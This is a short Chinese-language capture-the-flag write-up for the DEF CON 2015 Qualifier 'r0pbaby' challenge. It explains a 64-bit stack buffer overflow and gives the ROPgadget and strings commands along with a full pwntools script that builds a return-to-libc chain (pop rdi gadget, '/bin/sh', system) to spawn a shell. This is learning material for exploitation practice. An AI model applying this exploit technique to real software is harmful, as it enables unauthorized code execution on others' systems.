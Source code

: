 ```yaml
---
title: Defcon-2015-Qualifier-r0pbaby
date: 2018-03-17 18:11:32
tags: pwn
---
```

64位需要rdi传参，有PIE保护不能使用程序中的gadget，此处可以从libc中找   
   
buf的大小是8，会造成缓冲区溢出   
解题思路  
1.找到一个gadget RDI  
2.找到 `/bin/sh`地址   
3.找到 `system` 函数地址  
查找 gadget   
`ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"`  
查找 /bin/sh 字符串  
`strings -a -tx /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"`


```
from pwn import *
elf = ELF('r0pbaby')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process('./r0pbaby')
sh = next(libc.search('/bin/sh'))
sys_offset = libc.symbols['system']
rdi_offset = 0x000000000002144f

def getFun(fun):
    io.recvuntil("4) Exit\n:")
    io.sendline('2')
    io.recvuntil("Enter symbol:")
    io.sendline(fun)
    msg = io.recvuntil("4) Exit\n: ")
    offset = msg.find(":")
    offset2 = msg.find("\n")
    addr = msg[offset+2:offset2]
    return long(addr,16)

sys_addr = getFun('system') 
sh_addr = sys_addr-sys_offset + sh 
rdi_addr = sys_addr - sys_offset+rdi_offset

payload = 'a'*8+p64(rdi_addr)+p64(sh_addr)+p64(sys_addr)
io.recv()
io.sendline('3')
io.recv()
io.sendline(str(len(payload)))
io.sendline(payload)
io.recvuntil("Bad choice.\n")   
io.interactive()
```
总结：简单的调用 system + “bin/sh” 通过寄存器 gadget “pop rdi;ret “传参
